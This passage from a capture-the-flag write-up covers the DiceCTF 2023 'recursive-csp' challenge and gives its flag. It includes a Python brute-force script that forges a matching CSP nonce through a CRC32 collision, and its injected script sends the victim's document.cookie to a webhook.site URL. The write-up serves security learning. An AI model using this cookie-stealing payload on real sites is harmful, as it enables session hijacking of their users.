 Nice! We successfully retrieved admin bot's cookie!!

- **Flag: `dice{h0pe_that_d1dnt_take_too_l0ng}`**

**Alternatively, I modified the brute force script:**
```py
#!/usr/bin/env python3

from zlib import crc32

def main():
    for i in range(0x0, 0xffffffff + 1):
        nonceValue = crc32(bytes(i))

        payload = f'<script nonce="{nonceValue}">document.location="https://webhook.site/9e750b29-46f0-4629-a07c-adeb8a7ed641/?c="+document.cookie</script>'.encode('utf-8')
        hashedPayload = crc32(bytes(payload))

        print(f'[*] Trying nonce {nonceValue}, hashed payload {hashedPayload}', end='\r')

        if hashedPayload == nonceValue:
            print('[+] Found collided hash!')
            print(f'[+] Nonce value: {nonceValue}')
            print(f'[+] Hashed value: {hashedPayload}')
            print(f'[+] Before hashed payload: {payload.decode()}')
            exit()

if __name__ == '__main__':
    main()
```

This script will loop through hex `0x0` to hex `0xffffffff`, which is from 0 to 4294967295. The reason why we loop through that, is because CRC32 is 32-bit long, or 8 hex characters long. Therefore, we can loop through hex `0x0` to hex `0xffffffff`, to get the hash collision value:

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:06:13(HKT)]
└> python3 brute_force_crc32b.py                                                              
[...]
```

However, using Python to do that would take a very, very long time.

To address this issue, we can use **Rust**.

> Rust is blazingly fast and memory-efficient: with no runtime or garbage collector, it can power performance-critical services, run on embedded devices, and easily integrate with other languages.

- Initialise a new Rust repository:

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:24:12(HKT)]
└> cargo init         
     Created binary (application) package
```

- Modfiy the `src/main.rs`: (The following Rust script is from this challenge's author: strellic, I strongly recommend you to read his [writeup](https://brycec.me/posts/dicectf_2023_challenges#recursive-csp)! Kudos to strellic!)

